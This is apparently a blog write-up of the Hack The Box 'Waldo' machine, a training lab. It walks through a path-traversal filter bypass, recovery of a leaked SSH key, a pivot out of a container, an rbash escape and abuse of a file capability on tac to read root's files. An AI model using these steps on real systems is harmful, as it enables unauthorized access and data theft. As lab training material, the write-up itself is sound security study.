






---
search:
  exclude: true
---
# Waldo Writeup

## Introduction :

Waldo is a Medium linux box released back in August 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~]
      → nmap -F 10.10.10.87 --top-ports 10000
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 10:34 GMT
      Nmap scan report for 10.10.10.87
      Host is up (0.096s latency).
      Not shown: 8317 closed ports
      PORT     STATE    SERVICE
      22/tcp   open     ssh
      80/tcp   open     http
      8888/tcp filtered sun-answerbook
    
      Nmap done: 1 IP address (1 host up) scanned in 18.37 seconds
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~]
      → nmap -sCV -p22,80,8888 10.10.10.87
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 10:35 GMT
      Nmap scan report for 10.10.10.87
      Host is up (0.081s latency).
    
      PORT     STATE    SERVICE        VERSION
      22/tcp   open     ssh            OpenSSH 7.5 (protocol 2.0)
      | ssh-hostkey:
      |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
      |   256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
      |_  256 38:64:ac:57:56:44:d5:69:de:74:a8:88:dc:a0:b4:fd (ED25519)
      80/tcp   open     http           nginx 1.12.2
      |_http-server-header: nginx/1.12.2
      | http-title: List Manager
      |_Requested resource was /list.html
      |_http-trane-info: Problem with XML parsing of /evox/about
      8888/tcp filtered sun-answerbook
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
    
    
    
      {Ø} root [ 10.10.14.24/23 ] [/home/nihilist]
      → echo '10.10.10.87 waldo.htb' >> /etc/hosts
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

Here we are greeted with a simple http website, and peeking at the sourcecode we are hinted towards a /list.js script: 

    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Waldo]
      → curl -sk http://10.10.10.87/list.js
    

Whose script returns quite a few javascript functions, but we'll take a closer look at the readFile function: 
    
    
      function readFile(file){
      	var xhttp = new XMLHttpRequest();
      	xhttp.open("POST","fileRead.php",false);
      	xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
      	xhttp.send('file=' + file);
      	if (xhttp.readyState === 4 && xhttp.status === 200) {
      		return xhttp.responseText;
      	}else{
      	}
      }
    

This function takes in an XML HTTP Requestn which can be sent as a POST request to /fileRead.php, and from there we can use the file= parameter to read the content of the files, so we'll see if we can get Local File Inclusion. Let's start up Burpsuite and craft our custom POST Request : 

Intercept our GET request aimed at /fileRead.php and send it to burpsuite's Repeater (CTRL+R) and go there (CTRL+SHIFT+R)

Now just changing the POST request isn't enough we need to tweak the POST Request further : 

Now that we can read the contents of dirRead.php whose function uses a str_array function filter to replace the characters that could be used for LFI.
    
    
      str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);
    
    

Without the backslashes becomes : 
    
    
      str_replace( array("../", "..\"), "", $_POST['path']);
    
    

And here we see that we are able to bypass the filter by using this sequence : **....//....//....//....//**

Now that we have verified that it was possible to list the directories in /home, we found the user "nobody", now let's try to see if he has any interesting files in his .ssh folder : 

it looks like the .monitor file seems interesting, so let's print it using /fileRead.php using the local file inclusion we used for /dirRead.php:

 

And we have a private ssh key ! now let's save it locally, and we need to transform the \n into new lines, remove the remaining \, give it the appropriate permissions and then use it to log in via ssh: 

Once the \n newlines are replaced with actual newlines, remove the backslashes:

    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Waldo]
      → nano pkey
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Waldo]
      → chmod 600 pkey
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Waldo]
      → ssh -i pkey nobody@10.10.10.87
      The authenticity of host '10.10.10.87 (10.10.10.87)' can't be established.
      ECDSA key fingerprint is SHA256:S4nfJbcTY7WAdYp2v16xgnUj4MEIzqZ/jwbGI92FXEk.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.87' (ECDSA) to the list of known hosts.
      Welcome to Alpine!
    
      The Alpine Wiki contains a large amount of how-to guides and general
      information about administrating Alpine systems.
      See <****http://wiki.alpinelinux.org>.
      waldo:~$ whoami
      nobody
      waldo:~$ cat ~/user.txt
      32XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now what's weird here is that we have been able to login as the user nobody with the .monitor private key, although there should be a monitor user
    
    
      waldo:~$ cat /etc/passwd
    root:x:0:0:root:/root:/bin/ash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    news:x:9:13:news:/usr/lib/news:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
    operator:x:11:0:operator:/root:/bin/sh
    man:x:13:15:man:/usr/man:/sbin/nologin
    postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
    cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
    ftp:x:21:21::/var/lib/ftp:/sbin/nologin
    sshd:x:22:22:sshd:/dev/null:/sbin/nologin
    at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
    squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
    xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
    games:x:35:35:games:/usr/games:/sbin/nologin
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    cyrus:x:85:12::/usr/cyrus:/sbin/nologin
    vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
    ntp:x:123:123:NTP:/var/empty:/sbin/nologin
    smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
    guest:x:405:100:guest:/dev/null:/sbin/nologin
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
    waldo:~$ cat /etc/passwd | grep monitor
    waldo:~$
    

But as you can see, the user monitor is not there, poking around we realise that we are in a container. So this would potentially mean that we are not in the system itself, but just contained within it. So we can assume that we are able to login via ssh as the user monitor into the real system the same way by simply specifying the correct username, which in this case would be "monitor" 
    
    
      {Ø} nihilist [ 10.10.14.24/23 ] [~/_HTB/Waldo]
      → ssh -i pkey monitor@10.10.10.87
    

Which you probably guessed , can't be done remotely, we have to do it from the box itself, hence the Pivoting aspect of this box: 
    
    
      [0] nihilist [ 10.10.14.24/23 ] [~/_HTB/Waldo]
      → ssh -i pkey nobody@10.10.10.87
      Welcome to Alpine!
    
      The Alpine Wiki contains a large amount of how-to guides and general
      information about administrating Alpine systems.
      See .
      waldo:~$ cd .ssh
      waldo:~/.ssh$ ssh -i .monitor monitor@127.0.0.1
    
    

And only then we are able to really land on the system : 
    
    
      waldo:~/.ssh$ ssh -i .monitor monitor@127.0.0.1
      The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
      ECDSA key fingerprint is SHA256:YHb7KyiwRxyN62du1P80KmeA9Ap50jgU6JlRaXThs/M.
      Are you sure you want to continue connecting (yes/no)? yes
      Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
      Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64
                 &.
                @@@,@@/ %
             #*/%@@@@/.&@@,
         @@@#@@#&@#&#&@@@,*%/
         /@@@&###########@@&*(*
       (@################%@@@@@.     /**
       @@@@&#############%@@@@@@@@@@@@@@@@@@@@@@@@%((/
       %@@@@%##########&@@@....                 .#%#@@@@@@@#
       @@&%#########@@@@/                        */@@@%(((@@@%
          @@@#%@@%@@@,                       *&@@@&%(((#((((@@(
           /(@@@@@@@                     *&@@@@%((((((((((((#@@(
             %/#@@@/@ @#/@          ..@@@@%(((((((((((#((#@@@@@@@@@@@@&#,
                %@*(@#%@.,       /@@@@&(((((((((((((((&@@@@@@&#######%%@@@@#    &
              *@@@@@#        .&@@@#(((#(#((((((((#%@@@@@%###&@@@@@@@@@&%##&@@@@@@/
             /@@          #@@@&#(((((((((((#((@@@@@%%%%@@@@%#########%&@@@@@@@@&
            *@@      *%@@@@#((((((((((((((#@@@@@@@@@@%####%@@@@@@@@@@@@###&@@@@@@@&
            %@/ .&%@@%#(((((((((((((((#@@@@@@@&#####%@@@%#############%@@@&%##&@@/
            @@@@@@%(((((((((((##(((@@@@&%####%@@@%#####&@@@@@@@@@@@@@@@&##&@@@@@@@@@/
           @@@&(((#((((((((((((#@@@@@&@@@@######@@@###################&@@@&#####%@@*
           @@#(((((((((((((#@@@@%&@@.,,.*@@@%#####@@@@@@@@@@@@@@@@@@@%####%@@@@@@@@@@
           *@@%((((((((#@@@@@@@%#&@@,,.,,.&@@@#####################%@@@@@@%######&@@.
             @@@#(#&@@@@@&##&@@@&#@@/,,,,,,,,@@@&######&@@@@@@@@&&%######%@@@@@@@@@@@
              @@@@@@&%&@@@%#&@%%@@@@/,,,,,,,,,,/@@@@@@@#/,,.*&@@%&@@@@@@&%#####%@@@@.
                .@@@###&@@@%%@(,,,%@&,.,,,,,,,,,,,,,.*&@@@@&(,*@&#@%%@@@@@@@@@@@@*
                  @@%##%@@/@@@%/@@@@@@@@@#,,,,.../@@@@@%#%&@@@@(&@&@&@@@@(
                  .@@&##@@,,/@@@@&(.  .&@@@&,,,.&@@/         #@@%@@@@@&@@@/
                 *@@@@@&@@.*@@@          %@@@*,&@@            *@@@@@&.#/,@/
                *@@&*#@@@@@@@&     #@(    .@@@@@@&    ,@@@,    @@@@@(,@/@@
                *@@/@#.#@@@@@/    %@@@,   .@@&%@@@     &@&     @@*@@*(@@#
                 (@@/@,,@@&@@@            &@@,,(@@&          .@@%/@@,@@
                   /@@@*,@@,@@@*         @@@,,,,,@@@@.     *@@@%,@@**@#
                     %@@.%@&,(@@@@,  /&@@@@,,,,,,,%@@@@@@@@@@%,,*@@,#@,
                      ,@@,&@,,,,(@@@@@@@(,,,,,.,,,,,,,,**,,,,,,.*@/,&@
                       &@,*@@.,,,,,..,,,,&@@%/**/@@*,,,,,&(.,,,.@@,,@@
                       /@%,&@/,,,,/@%,,,,,*&@@@@@#.,,,,,.@@@(,,(@@@@@(
                        @@*,@@,,,#@@@&*..,,,,,,,,,,,,/@@@@,*(,,&@/#*
                        *@@@@@(,,@*,%@@@@@@@&&#%@@@@@@@/,,,,,,,@@
                             @@*,,,,,,,,,.*/(//*,..,,,,,,,,,,,&@,
                              @@,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,@@
                              &@&,,,,,,,,,,,,,,,,,,,,,,,,,,,,&@#
                               %@(,,,,,,,,,,,,,,,,,,,,,,,,,,,@@
                               ,@@,,,,,,,,@@@&&&%&@,,,,,..,,@@,
                                *@@,,,,,,,.,****,..,,,,,,,,&@@
                                 (@(,,,.,,,,,,,,,,,,,,.,,,/@@
                                 .@@,,,,,,,,,,,,,...,,,,,,@@
                                  ,@@@,,,,,,,,,,,,,,,,.(@@@
                                    %@@@@&(,,,,*(#&@@@@@@,
    
                                  Here's Waldo, where's root?
      Last login: Tue Jul 24 08:09:03 2018 from 127.0.0.1
      -rbash: alias: command not found
      monitor@waldo:~$ uname -a
    -rbash: uname: command not found
    
    </pre></code>
    
 From there we are in a restricted bash (rbash) but we can evade it by specifying the correct flags when we connect via ssh as the monitor user. 

    <pre><code class="nim">
      waldo:~/.ssh$ ssh -i .monitor monitor@127.0.0.1 -t bash --noprofile
    
      monitor@waldo:~$ ls
      app-dev  bin
    
      monitor@waldo:~$ uname -a
      bash: uname: command not found
    
      monitor@waldo:~$ echo $PATH
    /home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
    </pre></code>
    
 As you can see, we need to manually set our $PATH variable, so let's make sure we can execute binaries from /bin /sbin /usr/bin and so on.

    <pre><code class="nim">
      monitor@waldo:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH
      monitor@waldo:~$ uname -a
      Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64 GNU/Linux
    </pre></code>
    
 Now we have access to the binaries we need, and we can continue to poke around the box , we take a look into monitor/app-dev

    <pre><code class="nim">
      monitor@waldo:~$ cd app-dev
      monitor@waldo:~/app-dev$ pwd
      /home/monitor/app-dev
      monitor@waldo:~/app-dev$ ls
      logMonitor  logMonitor.bak  logMonitor.c  logMonitor.h  logMonitor.h.gch  logMonitor.o  makefile  v0.1
    </pre></code>
    
 In here we have access to the sourcecode of an application written in C, although the interesting part is in the v0.1 folder : 

    <pre><code class="nim">
      monitor@waldo:~/app-dev$ cd v0.1
      monitor@waldo:~/app-dev/v0.1$ ls -lash
      total 24K
      4.0K drwxr-x--- 2 app-dev monitor 4.0K May  3  2018 .
      4.0K drwxrwx--- 3 app-dev monitor 4.0K May  3  2018 ..
       16K -r-xr-x--- 1 app-dev monitor  14K May  3  2018 logMonitor-0.1
      monitor@waldo:~/app-dev/v0.1$ ./logMonitor-0.1 -a
      Mar 20 06:17:01 waldo CRON[929]: pam_unix(cron:session): session opened for user root by (uid=0)
      Mar 20 06:17:01 waldo CRON[929]: pam_unix(cron:session): session closed for user root
      Mar 20 06:25:01 waldo CRON[934]: pam_unix(cron:session): session opened for user root by (uid=0)
      Mar 20 06:25:01 waldo CRON[934]: pam_unix(cron:session): session closed for user root
      Mar 20 07:17:01 waldo CRON[1018]: pam_unix(cron:session): session opened for user root by (uid=0)
      Mar 20 07:17:01 waldo CRON[1018]: pam_unix(cron:session): session closed for user root
      Mar 20 07:30:01 waldo CRON[1023]: pam_unix(cron:session): session opened for user root by (uid=0)
      Mar 20 07:30:01 waldo CRON[1023]: pam_unix(cron:session): session closed for user root
      Mar 20 08:17:01 waldo CRON[1047]: pam_unix(cron:session): session opened for user root by (uid=0)
      Mar 20 08:17:01 waldo CRON[1047]: pam_unix(cron:session): session closed for user root
      Mar 20 09:17:01 waldo CRON[1064]: pam_unix(cron:session): session opened for user root by (uid=0)
      Mar 20 09:17:01 waldo CRON[1064]: pam_unix(cron:session): session closed for user root
      Mar 20 10:17:01 waldo CRON[1095]: pam_unix(cron:session): session opened for user root by (uid=0)
      Mar 20 10:17:01 waldo CRON[1095]: pam_unix(cron:session): session closed for user root
      Mar 20 10:27:59 waldo sshd[1112]: Accepted publickey for monitor from 127.0.0.1 port 55516 ssh2: RSA SHA256:Kl+zDjbDx4fQ7xVvGg6V3RhjezqB1gfe2kWqm1AMD0c
      Mar 20 10:27:59 waldo sshd[1112]: pam_unix(sshd:session): session opened for user monitor by (uid=0)
      Mar 20 10:27:59 waldo systemd: pam_unix(systemd-user:session): session opened for user monitor by (uid=0)
      Mar 20 10:27:59 waldo systemd-logind[356]: New session 8 of user monitor.
      Mar 20 10:30:45 waldo sshd[1121]: Received disconnect from 127.0.0.1 port 55516:11: disconnected by user
      Mar 20 10:30:45 waldo sshd[1121]: Disconnected from 127.0.0.1 port 55516
      Mar 20 10:30:45 waldo sshd[1112]: pam_unix(sshd:session): session closed for user monitor
      Mar 20 10:30:45 waldo systemd-logind[356]: Removed session 8.
      Mar 20 10:31:01 waldo sshd[1148]: Accepted publickey for monitor from 127.0.0.1 port 55518 ssh2: RSA SHA256:Kl+zDjbDx4fQ7xVvGg6V3RhjezqB1gfe2kWqm1AMD0c
      Mar 20 10:31:01 waldo sshd[1148]: pam_unix(sshd:session): session opened for user monitor by (uid=0)
      Mar 20 10:31:01 waldo systemd: pam_unix(systemd-user:session): session opened for user monitor by (uid=0)
      Mar 20 10:31:01 waldo systemd-logind[356]: New session 10 of user monitor.
    </pre></code>
    
 It looks like the application is able to read log files even though it doesn't have the SUID bit set which is  abit odd since
      the other logMonitor-0.1 binary was owned by the same user : 

    <pre><code class="nim">
      monitor@waldo:~/app-dev/v0.1$ ls -lash logMonitor-0.1 && ls -lash ../logMonitor
      16K -r-xr-x--- 1 app-dev monitor 14K May  3  2018 logMonitor-0.1
      16K -rwxrwx--- 1 app-dev monitor 14K Jul 24  2018 ../logMonitor
    </pre></code>
    
 Both are owned by the same user, and the previous logMonitor binary even has more permissions than this one which is odd,
      this is because there is something called "file capabilities" which we can check by using the command getcap : 

    <pre><code class="nim">
      monitor@waldo:~/app-dev/v0.1$ getcap -r logMonitor-0.1
      logMonitor-0.1 = cap_dac_read_search+ei
    </pre></code>
    
 This logMonitor-0.1 file has the cap_dac_read_search capability which allows it to bypass the read permission checks
      and directory all three RWX checks, which is quite handy, but we can't use this file to read anything other than
      the log files: 

    <pre><code class="nim">
      monitor@waldo:~/app-dev/v0.1$ getcap -r /* 2>/dev/null
      /home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
      /usr/bin/tac = cap_dac_read_search+ei
    </pre></code>
    
 So that's weird, apparently this can be used to read /usr/bin/tac so let's investigate it : 

    <pre><code class="nim">
      monitor@waldo:~/app-dev/v0.1$ file /usr/bin/tac
      /usr/bin/tac: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1c24dbf3a64cb509bf8bde1aa4ecf04fca8959ae, stripped
      monitor@waldo:~/app-dev/v0.1$ /usr/bin/tac
      ^C
      monitor@waldo:~/app-dev/v0.1$ /usr/bin/tac --help
      Usage: /usr/bin/tac [OPTION]... [FILE]...
      Write each FILE to standard output, last line first.
    
      With no FILE, or when FILE is -, read standard input.
    
      Mandatory arguments to long options are mandatory for short options too.
        -b, --before             attach the separator before instead of after
        -r, --regex              interpret the separator as a regular expression
        -s, --separator=STRING   use STRING as the separator instead of newline
            --help     display this help and exit
            --version  output version information and exit
    
      GNU coreutils online help: <<b></b>http://www.gnu.org/software/coreutils/>
      Full documentation at: <<b></b>http://www.gnu.org/software/coreutils/tac>
      or available locally via: info '(coreutils) tac invocation'
    </pre></code>
    
 Interesting binary, since we can use it to write each FILE to stdout, and as we saw earlier, /usr/bin/tac has the cap_dac_read_search capabilities which
      allows it to bypass the RWX permission checks, so let's see if we can use it to read the root flag : 

    <pre><code class="nim">
      monitor@waldo:~/app-dev/v0.1$ /usr/bin/tac /root/root.txt
      8fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    </pre></code>
    
 And that's it ! We have been able to print out the root flag. 

    				

    			
<!-- /row -->
    	    
 <!-- /container -->
    	
<!-- /white -->
      <!-- +++++ Conclusion +++++ -->
      

    	    

    			

    				

              <h2><b> Conclusion </b></h2>    
              
 Here we can see the progress graph :

               

    				

    			
<!-- /row -->
    	    
 <!-- /container -->
    	
<!-- /white -->
    
    	<!-- +++++ Footer Section +++++ -->
    
    	

    		

    			

    				

    					<h4>Nihilism</h4>
              

    						Until there is Nothing left.
  
Creative Commons Zero: <a href="../../../../opsec/runtheblog/index.md">No Rights Reserved</a> 
    						
    					

    				
<!-- /col-lg-4 -->
    
    				

    					<h4>My Links</h4>
    					

    
    						<a target="_blank" rel="noopener noreferrer" href="http://blog.nowhere.moe/rss/feed.xml">RSS Feed</a> <a target="_blank" rel="noopener noreferrer" href="https://simplex.chat/contact#/?v=2-7&smp=smp%3A%2F%2FBD4qkVq8lJUgjHt0kUaxeQBYsKaxDejeecxm6-2vOwI%3D%40b6geeakpwskovltbesvy3b6ah3ewxfmnhnshojndmpp7wcv2df7bnead.onion%2FpyfV2wlxrcepw8g2OHINsMNuVmpsZsAo%23%2F%3Fv%3D1-3%26dh%3DMCowBQYDK2VuAyEAgePBM9B_duSC7yFaBWI8Dp_jJO62NpTwJN2wsAXeQis%253D&data=%7B%22groupLinkId%22%3A%22rrxS6sZIQHHjO9RUJsjrVA%3D%3D%22%7D">SimpleX Chat</a> 
    
    					

    				
<!-- /col-lg-4 -->
    
    				

    					<h4>About nihilist</h4>
    					
<u>Donate XMR:</u> 8C1MNeB4KEHGApg6sPxFPn3NWERD3mPv7AjC8mCm1CJCXjoKnf36SYBdZ6ywCMdZRC4cxu7Uax3tufDqMXS2mLvHNCJzQZS
 
    				
<!-- /col-lg-4 -->
    
    			

    
    		

    	

    
    
        <!-- Bootstrap core JavaScript
        ================================================== -->
        <!-- Placed at the end of the document so the pages load faster -->
        
      </body>
    </html>
    
